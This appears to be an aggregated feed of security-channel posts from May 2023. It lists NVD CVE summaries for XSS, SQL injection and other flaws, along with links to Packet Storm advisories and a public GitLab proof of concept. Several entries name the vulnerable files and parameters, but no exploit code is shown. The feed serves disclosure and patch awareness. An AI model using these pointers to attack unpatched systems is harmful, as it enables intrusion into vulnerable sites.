

# cibsecurity
`2023-05-31`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-33732

<blockquote>
‼ CVE-2023-33732 ‼

Cross Site Scripting (XSS) in the New Policy form in Microworld Technologies eScan management console 14.0.1400.2281 allows a remote attacker to inject arbitrary code via the vulnerable parameters type, txtPolicyType, and Deletefileval.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-31`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-33967

<blockquote>
‼ CVE-2023-33967 ‼

EaseProbe is a tool that can do health/status checking. An SQL injection issue was discovered in EaseProbe before 2.1.0 when using MySQL/PostgreSQL data checking. This problem has been fixed in v2.1.0.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-31`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-3021

<blockquote>
‼ CVE-2023-3021 ‼

Cross-site Scripting (XSS) - Stored in GitHub repository mkucej/i-librarian-free prior to 5.10.4.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-05-31`

<blockquote>
XSS vulnerability in the ASP.NET application: examining CVE-2023-24322 in mojoPortal CMS
https://www.reddit.com/r/netsec/comments/13whdbz/xss_vulnerability_in_the_aspnet_application/
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/13whdbz/xss_vulnerability_in_the_aspnet_application/">
https://www.reddit.com/r/netsec/comments/13whdbz/xss_vulnerability_in_the_aspnet_application/
</a>
<blockquote>
Posted by u/Hell_walker13 - 1 vote and no comments
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-05-31`

<blockquote>
Apple Zeed ALL YOUR STYLE CMS 2.0 SQL Injection
https://packetstormsecurity.com/files/172651/applezeedayc20-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172651/applezeedayc20-sql.txt">
https://packetstormsecurity.com/files/172651/applezeedayc20-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# proxy_bar
`2023-05-31`

<blockquote>
так и живем, на xss запрещают, на экспосе разрешают.
Пронаблюдаем !
</blockquote>

---

# cibsecurity
`2023-05-31`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-3008

<blockquote>
‼ CVE-2023-3008 ‼

A vulnerability classified as critical has been found in ningzichun Student Management System 1.0. This affects an unknown part of the file login.php. The manipulation of the argument user/pass leads to sql injection. It is possible to initiate the attack remotely. The exploit has been disclosed to the public and may be used. The associated identifier of this vulnerability is VDB-230355.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-31`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-33736

<blockquote>
‼ CVE-2023-33736 ‼

A stored cross-site scripting (XSS) vulnerability in Dcat-Admin v2.1.3-beta allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the URL parameter.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-31`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-3009

<blockquote>
‼ CVE-2023-3009 ‼

Cross-site Scripting (XSS) - Stored in GitHub repository nilsteampassnet/teampass prior to 3.0.9.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-31`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-33509

<blockquote>
‼ CVE-2023-33509 ‼

KramerAV VIA GO² &lt; 4.0.1.1326 is vulnerable to SQL Injection.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-31`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-3003

<blockquote>
‼ CVE-2023-3003 ‼

A vulnerability classified as critical was found in SourceCodester Train Station Ticketing System 1.0. Affected by this vulnerability is an unknown functionality of the file manage_prices.php of the component GET Parameter Handler. The manipulation of the argument id leads to sql injection. The attack can be launched remotely. The exploit has been disclosed to the public and may be used. The associated identifier of this vulnerability is VDB-230347.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-31`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25539

<blockquote>
‼ CVE-2023-25539 ‼

Dell NetWorker 19.6.1.2, contains an OS command injection Vulnerability in the NetWorker client. A remote unauthenticated attacker could potentially exploit this vulnerability, leading to the execution of arbitrary OS commands on the application's underlying OS, with the privileges of the vulnerable application. This is a high severity vulnerability as the exploitation allows an attacker to take complete control of a system, so Dell recommends customers to upgrade at the earliest opportunity.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-31`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-3004

<blockquote>
‼ CVE-2023-3004 ‼

A vulnerability, which was classified as critical, has been found in SourceCodester Simple Chat System 1.0. Affected by this issue is some unknown functionality of the file /ajax.php?action&#61;read_msg of the component POST Parameter Handler. The manipulation of the argument convo_id leads to sql injection. The attack may be launched remotely. The exploit has been disclosed to the public and may be used. The identifier of this vulnerability is VDB-230348.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-31`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-47526

<blockquote>
‼ CVE-2022-47526 ‼

Fox-IT DataDiode (aka Fox DataDiode) 3.4.3 suffers from a path traversal vulnerability with resultant arbitrary writing of files. A remote attacker could leverage this vulnerability to achieve arbitrary code execution in the context of the downstream node user. Exploitation of this issue does not require user interaction.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-31`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2998

<blockquote>
‼ CVE-2023-2998 ‼

Cross-site Scripting (XSS) - Stored in GitHub repository thorsten/phpmyfaq prior to 3.1.14.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-31`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-33962

<blockquote>
‼ CVE-2023-33962 ‼

JStachio is a type-safe Java Mustache templating engine. Prior to version 1.0.1, JStachio fails to escape single quotes `'` in HTML, allowing an attacker to inject malicious code. This vulnerability can be exploited by an attacker to execute arbitrary JavaScript code in the context of other users visiting pages that use this template engine. This can lead to various consequences, including session hijacking, defacement of web pages, theft of sensitive information, or even the propagation of malware.Version 1.0.1 contains a patch for this issue. To mitigate this vulnerability, the template engine should properly escape special characters, including single quotes. Common practice is to escape `'` as `&amp;&#35;39`. As a workaround, users can avoid this issue by using only double quotes `&quot;` for HTML attributes.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-05-31`

<blockquote>
Barracuda Networks patches zero-day vulnerability in Email Security Gateway
https://www.malwarebytes.com/blog/news/2023/05/barracuda-networks-patches-zero-day-vulnerability-in-email-security-gateway
</blockquote>

<table><tr><td><b>→</b><a href="https://www.malwarebytes.com/blog/news/2023/05/barracuda-networks-patches-zero-day-vulnerability-in-email-security-gateway">
https://www.malwarebytes.com/blog/news/2023/05/barracuda-networks-patches-zero-day-vulnerability-in-email-security-gateway
</a>
<blockquote>
Barracuda Networks issued a patch for a zero-day vulnerability in its Email Security Gateway that was actively being exploited
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-05-30`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-33656

<blockquote>
‼ CVE-2023-33656 ‼

A memory leak vulnerability exists in NanoMQ 0.17.2. The vulnerability is located in the file message.c. An attacker could exploit this vulnerability to cause a denial of service attack by causing the program to consume all available memory resources.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-30`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23754

<blockquote>
‼ CVE-2023-23754 ‼

An issue was discovered in Joomla! 4.2.0 through 4.3.1. Lack of input validation caused an open redirect and XSS issue within the new mfa selection screen.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-05-30`

<blockquote>
Serenity / StartSharp Software File Upload / XSS / User Enumeration / Reusable Tokens
https://packetstormsecurity.com/files/172648/SA-20230516-0.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172648/SA-20230516-0.txt">
https://packetstormsecurity.com/files/172648/SA-20230516-0.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-05-30`

<blockquote>
Pydio Cells 4.1.2 Server-Side Request Forgery
https://packetstormsecurity.com/files/172647/rt-sa-2023-005.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172647/rt-sa-2023-005.txt">
https://packetstormsecurity.com/files/172647/rt-sa-2023-005.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-05-30`

<blockquote>
PrinterLogic Build 1.0.757 XSS / SQL Injection / Authentication Bypass
https://packetstormsecurity.com/files/172643/printerlogic10757-bypassxsssql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172643/printerlogic10757-bypassxsssql.txt">
https://packetstormsecurity.com/files/172643/printerlogic10757-bypassxsssql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-05-30`

<blockquote>
Argon Dashboard 2 SQL Injection
https://packetstormsecurity.com/files/172606/argondashboard2-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172606/argondashboard2-sql.txt">
https://packetstormsecurity.com/files/172606/argondashboard2-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-05-30`

<blockquote>
Nextcloud: Blind SSRF as normal user from mailapp
https://vulners.com/hackerone/H1:1913095?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss
</blockquote>

<table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1913095?utm_source=rss&utm_medium=rss&utm_campaign=rss">
https://vulners.com/hackerone/H1:1913095?utm_source=rss&utm_medium=rss&utm_campaign=rss
</a>
<blockquote>
https://github.com/nextcloud/security-advisories/security/advisories/GHSA-8gph-9895-w564...
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-05-29`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-24627

<blockquote>
‼ CVE-2022-24627 ‼

An issue was discovered in AudioCodes Device Manager Express through 7.8.20002.47752. It is an unauthenticated SQL injection in the p parameter of the process_login.php login form.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-29`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-24631

<blockquote>
‼ CVE-2022-24631 ‼

An issue was discovered in AudioCodes Device Manager Express through 7.8.20002.47752. It is stored XSS via the ajaxTenants.php desc parameter.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-05-29`

<blockquote>
Securing PDF Generators Against SSRF Vulnerabilities
https://www.reddit.com/r/netsec/comments/13v8llj/securing_pdf_generators_against_ssrf/
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/13v8llj/securing_pdf_generators_against_ssrf/">
https://www.reddit.com/r/netsec/comments/13v8llj/securing_pdf_generators_against_ssrf/
</a>
<blockquote>
Posted by u/AffectionateOrchid10 - 49 votes and 1 comment
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-05-29`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2962

<blockquote>
‼ CVE-2023-2962 ‼

A vulnerability, which was classified as critical, has been found in SourceCodester Faculty Evaluation System 1.0. Affected by this issue is some unknown functionality of the file index.php?page&#61;edit_user. The manipulation of the argument id leads to sql injection. The attack may be launched remotely. The exploit has been disclosed to the public and may be used. VDB-230150 is the identifier assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-29`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-27613

<blockquote>
‼ CVE-2023-27613 ‼

Unauth. Reflected Cross-Site Scripting (XSS) vulnerability in MonitorClick Forms Ada – Form Builder plugin &lt;&#61; 1.0 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-05-29`

<blockquote>
XSS Flaw Riddled Beautiful Cookie Consent Banner WP Plugin
https://latesthackingnews.com/2023/05/29/xss-flaw-riddled-beautiful-cookie-consent-banner-wp-plugin/
</blockquote>

<table><tr><td><b>→</b><a href="https://latesthackingnews.com/2023/05/29/xss-flaw-riddled-beautiful-cookie-consent-banner-wp-plugin/">
https://latesthackingnews.com/2023/05/29/xss-flaw-riddled-beautiful-cookie-consent-banner-wp-plugin/
</a>
<blockquote>
Heads up, WordPress admins! It’s time to update your websites with the latest Beautiful Cookie Consent Banner plugin version, as the developers addressed a serious cross-site scripting (XSS) flaw. Serious Security Flaw Patched In Beautiful Cookie
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-05-29`

<blockquote>
New MVC Shop 1.0 SQL Injection / Missing Attributes
https://packetstormsecurity.com/files/172597/newmvcshop10-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172597/newmvcshop10-sql.txt">
https://packetstormsecurity.com/files/172597/newmvcshop10-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-05-29`

<blockquote>
Simple Customer Relationship Management CRM 2023 1.0 SQL Injection
https://packetstormsecurity.com/files/172596/scrms2023-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172596/scrms2023-sql.txt">
https://packetstormsecurity.com/files/172596/scrms2023-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-05-29`

<blockquote>
e-Biz Technocrats Pvt.Ltd SQL Injection
https://packetstormsecurity.com/files/172595/ebiztechnocrats-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172595/ebiztechnocrats-sql.txt">
https://packetstormsecurity.com/files/172595/ebiztechnocrats-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-05-29`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2955

<blockquote>
‼ CVE-2023-2955 ‼

A vulnerability, which was classified as critical, was found in SourceCodester Students Online Internship Timesheet System 1.0. Affected is an unknown function of the file rendered_report.php of the component GET Parameter Handler. The manipulation of the argument sid leads to sql injection. It is possible to launch the attack remotely. The exploit has been disclosed to the public and may be used. VDB-230142 is the identifier assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-29`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2954

<blockquote>
‼ CVE-2023-2954 ‼

Cross-site Scripting (XSS) - Stored in GitHub repository liangliangyy/djangoblog prior to master.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# sysadm_in_channel
`2023-05-29`

<blockquote>
/ Zyxel security advisory for multiple buffer overflow vulnerabilities of firewalls

…buffer overflow vulnerability in the notification function in some firewall versions could allow an unauthenticated attacker to cause denial-of-service (DoS) conditions and even a remote code execution on an affected device:

— https://www.zyxel.com/global/en/support/security-advisories/zyxel-security-advisory-for-multiple-buffer-overflow-vulnerabilities-of-firewalls
</blockquote>

<table><tr><td><b>→</b><a href="https://www.zyxel.com/global/en/support/security-advisories/zyxel-security-advisory-for-multiple-buffer-overflow-vulnerabilities-of-firewalls">
https://www.zyxel.com/global/en/support/security-advisories/zyxel-security-advisory-for-multiple-buffer-overflow-vulnerabilities-of-firewalls
</a>
</td></tr></table>

---

# cibsecurity
`2023-05-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-32800

<blockquote>
‼ CVE-2023-32800 ‼

Unauth. Reflected Cross-Site Scripting (XSS) vulnerability in One Rank Math SEO PRO plugin &lt;&#61; 3.0.35 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-33216

<blockquote>
‼ CVE-2023-33216 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in gVectors Team WooDiscuz – WooCommerce Comments woodiscuz-woocommerce-comments allows Stored XSS.This issue affects WooDiscuz – WooCommerce Comments: from n/a through 2.2.9.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-125101

<blockquote>
‼ CVE-2014-125101 ‼

A vulnerability classified as critical has been found in Portfolio Gallery Plugin up to 1.1.8 on WordPress. This affects an unknown part. The manipulation leads to sql injection. It is possible to initiate the attack remotely. Upgrading to version 1.1.9 is able to address this issue. The name of the patch is 58ed88243e17df766036f4857041edaf358076d3. It is recommended to upgrade the affected component. The identifier VDB-230085 was assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2951

<blockquote>
‼ CVE-2023-2951 ‼

A vulnerability classified as critical has been found in code-projects Bus Dispatch and Information System 1.0. Affected is an unknown function of the file delete_bus.php. The manipulation of the argument busid leads to sql injection. It is possible to launch the attack remotely. The exploit has been disclosed to the public and may be used. The identifier of this vulnerability is VDB-230112.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2948

<blockquote>
‼ CVE-2023-2948 ‼

Cross-site Scripting (XSS) - Generic in GitHub repository openemr/openemr prior to 7.0.1.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2942

<blockquote>
‼ CVE-2023-2942 ‼

Improper Input Validation in GitHub repository openemr/openemr prior to 7.0.1.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2947

<blockquote>
‼ CVE-2023-2947 ‼

Cross-site Scripting (XSS) - Stored in GitHub repository openemr/openemr prior to 7.0.1.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-27`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2928

<blockquote>
‼ CVE-2023-2928 ‼

A vulnerability was found in DedeCMS up to 5.7.106. It has been declared as critical. Affected by this vulnerability is an unknown functionality of the file uploads/dede/article_allowurl_edit.php. The manipulation of the argument allurls leads to code injection. The attack can be launched remotely. The exploit has been disclosed to the public and may be used. The associated identifier of this vulnerability is VDB-230083.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-26`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-33197

<blockquote>
‼ CVE-2023-33197 ‼

Craft is a CMS for creating custom digital experiences on the web. Cross-site scripting (XSS) can be triggered via the Update Asset Index utility. This issue has been patched in version 4.4.6.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-26`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-20868

<blockquote>
‼ CVE-2023-20868 ‼

NSX-T contains a reflected cross-site scripting vulnerability due to a lack of input validation. A remote attacker can inject HTML or JavaScript to redirect to malicious pages.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-05-26`

<blockquote>
Недавно у GitLab случилось очень важное обновление из-за очень критичной проблемы в 10 из 10

An issue has been discovered in GitLab CE/EE affecting only version 16.0.0. An unauthenticated malicious user can use a path traversal vulnerability to read arbitrary files on the server when an attachment exists in a public project

GitLab Critical Security Release: 16.0.1
https://about.gitlab.com/releases/2023/05/23/critical-security-release-gitlab-16-0-1-released/

И вот уже есть PoC

CVE-2023-2825 ANALYSIS AND EXPLOIT
https://occamsec.com/exploit-for-cve-2023-2825/
</blockquote>

---

# defcon_news
`2023-05-25`

<blockquote>
2023 Online Course Registration 1.0 SQL Injection
https://packetstormsecurity.com/files/172566/2023ocr10-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172566/2023ocr10-sql.txt">
https://packetstormsecurity.com/files/172566/2023ocr10-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-05-25`

<blockquote>
Service Provider Management System 1.0 SQL Injection
https://packetstormsecurity.com/files/172559/spms10-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172559/spms10-sql.txt">
https://packetstormsecurity.com/files/172559/spms10-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-05-25`

<blockquote>
Samsung ASLR Bypass Flaw Is Actively Exploited – Warns CISA
https://latesthackingnews.com/2023/05/25/samsung-aslr-bypass-flaw-is-actively-exploited-warns-cisa/
</blockquote>

<table><tr><td><b>→</b><a href="https://latesthackingnews.com/2023/05/25/samsung-aslr-bypass-flaw-is-actively-exploited-warns-cisa/">
https://latesthackingnews.com/2023/05/25/samsung-aslr-bypass-flaw-is-actively-exploited-warns-cisa/
</a>
<blockquote>
US CISA recently issued an alert, warning Samsung users about an ASLR bypass flaw being under attack. The attackers are reportedly exploiting this vulnerability to deploy spyware on target devices. Since Samsung has patched the
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-05-24`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-33945

<blockquote>
‼ CVE-2023-33945 ‼

SQL injection vulnerability in the upgrade process for SQL Server in Liferay Portal 7.3.1 through 7.4.3.17, and Liferay DXP 7.3 before update 6, and 7.4 before update 18 allows attackers to execute arbitrary SQL commands via the name of a database table's primary key index. This vulnerability is only exploitable when chained with other attacks. To exploit this vulnerability, the attacker must modify the database and wait for the application to be upgraded.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-24`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-33944

<blockquote>
‼ CVE-2023-33944 ‼

Cross-site scripting (XSS) vulnerability in Layout module in Liferay Portal 7.3.4 through 7.4.3.68, and Liferay DXP 7.3 before update 24, and 7.4 before update 69 allows remote attackers to inject arbitrary web script or HTML via a crafted payload injected into a container type layout fragment's `URL` text field.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-24`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25028

<blockquote>
‼ CVE-2023-25028 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in chuyencode CC Custom Taxonomy plugin &lt;&#61; 1.0.1 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-05-24`

<blockquote>
eScan Management Console 14.0.1400.2281 SQL Injection
https://packetstormsecurity.com/files/172545/escanmgmtconsole14014002281-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172545/escanmgmtconsole14014002281-sql.txt">
https://packetstormsecurity.com/files/172545/escanmgmtconsole14014002281-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-05-24`

<blockquote>
Quicklancer 1.0 SQL Injection
https://packetstormsecurity.com/files/172538/quicklancer10-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172538/quicklancer10-sql.txt">
https://packetstormsecurity.com/files/172538/quicklancer10-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-05-24`

<blockquote>
Smart School 1.0 SQL Injection
https://packetstormsecurity.com/files/172537/smartschool10-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172537/smartschool10-sql.txt">
https://packetstormsecurity.com/files/172537/smartschool10-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-05-24`

<blockquote>
LeadPro CRM 1.0 SQL Injection
https://packetstormsecurity.com/files/172536/leadprocrm10-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172536/leadprocrm10-sql.txt">
https://packetstormsecurity.com/files/172536/leadprocrm10-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-05-24`

<blockquote>
Apple Zeed ALL YOUR STYLE CMS 1.00 SQL Injection
https://packetstormsecurity.com/files/172533/applezeedaysc100-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172533/applezeedaysc100-sql.txt">
https://packetstormsecurity.com/files/172533/applezeedaysc100-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-05-24`

<blockquote>
Stackposts Social Marketing Tool 1.0 SQL Injection
https://packetstormsecurity.com/files/172529/ssmt10-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172529/ssmt10-sql.txt">
https://packetstormsecurity.com/files/172529/ssmt10-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-05-24`

<blockquote>
Prestashop 8.0.4 CSV Injection
https://packetstormsecurity.com/files/172520/prestashop804-csvinject.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172520/prestashop804-csvinject.txt">
https://packetstormsecurity.com/files/172520/prestashop804-csvinject.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-05-24`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-33010

<blockquote>
‼ CVE-2023-33010 ‼

A buffer overflow vulnerability in the ID processing function in Zyxel ATP series firmware versions 4.32 through 5.36 Patch 1, USG FLEX series firmware versions 4.50 through 5.36 Patch 1, USG FLEX 50(W) firmware versions 4.25 through 5.36 Patch 1, USG20(W)-VPN firmware versions 4.25 through 5.36 Patch 1, VPN series firmware versions 4.30 through 5.36 Patch 1, ZyWALL/USG series firmware versions 4.25 through 4.73 Patch 1, could allow an unauthenticated attacker to cause denial-of-service (DoS) conditions and even a remote code execution on an affected device.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-24`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-33937

<blockquote>
‼ CVE-2023-33937 ‼

Stored cross-site scripting (XSS) vulnerability in Form widget configuration in Liferay Portal 7.1.0 through 7.3.0, and Liferay DXP 7.1 before fix pack 18, and 7.2 before fix pack 5 allows remote attackers to inject arbitrary web script or HTML via a crafted payload injected into a form's `name` field.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-24`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-33009

<blockquote>
‼ CVE-2023-33009 ‼

A buffer overflow vulnerability in the notification function in Zyxel ATP series firmware versions 4.32 through 5.36 Patch 1, USG FLEX series firmware versions 4.50 through 5.36 Patch 1, USG FLEX 50(W) firmware versions 4.25 through 5.36 Patch 1, USG20(W)-VPN firmware versions 4.25 through 5.36 Patch 1, VPN series firmware versions 4.30 through 5.36 Patch 1, ZyWALL/USG series firmware versions 4.25 through 4.73 Patch 1, could allow an unauthenticated attacker to cause denial-of-service (DoS) conditions and even a remote code execution on an affected device.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-24`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2750

<blockquote>
‼ CVE-2023-2750 ‼

Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection') vulnerability in Cityboss E-municipality allows SQL Injection.This issue affects E-municipality: before 6.05.

📖 Read

